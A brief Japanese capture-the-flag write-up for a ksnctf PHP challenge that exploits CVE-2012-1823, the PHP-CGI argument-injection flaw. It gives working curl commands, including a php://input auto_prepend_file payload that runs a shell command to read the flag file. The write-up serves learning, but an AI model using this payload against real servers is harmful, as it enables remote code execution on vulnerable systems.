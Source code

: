 ## ksnctf

### Hypertext Preprocessor 70pt
https://ksnctf.sweetduet.info/problem/12

* keywords
  - Web、PHP
* 解法
  - ページ開いてみる
  - 何度か更新すると時間っぽい
  - でもよく分からん
  - 2012から始まっていてさらによく分からないのでぐぐる
  - [CVE-2012-1823]( https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-1823 )という脆弱性が見つかる
    - PHP 5.4.2より前で存在する脆弱性らしい
    - [徳丸浩の日記: CGI版PHPにリモートからスクリプト実行を許す脆弱性(CVE-2012-1823)]( https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html )
    - [もっとも悪用されたPHPの脆弱性CVE-2012-1823を検証する]( https://www.youtube.com/watch?v=XiIPXQX8RRU&feature=emb_title )
  - `$ curl -v http://ctfq.sweetduet.info:10080/~q12/` してみると `X-Powered-By: PHP/5.4.1` というヘッダーがレスポンスにあるので上記脆弱性がありそう
  - ということでこの脆弱性を使ってみる
    - 試しにまず `?-s` を付けてみる
      - `curl -v "http://ctfq.sweetduet.info:10080/~q12/?-s"` か直接アクセス
      - ソースが見れて、このディレクトリにflagの情報があることがわかる
    - 最終的には以下をやる
      ```bash
      $ curl -v --data-binary "<?php system('cat flag_flag_flag.txt');?>" "http://ctfq.sweetduet.info:10080/~q12/?-d+allow_url_include%3Don+-d+auto_prepend_file%3Dphp://input"
      ```
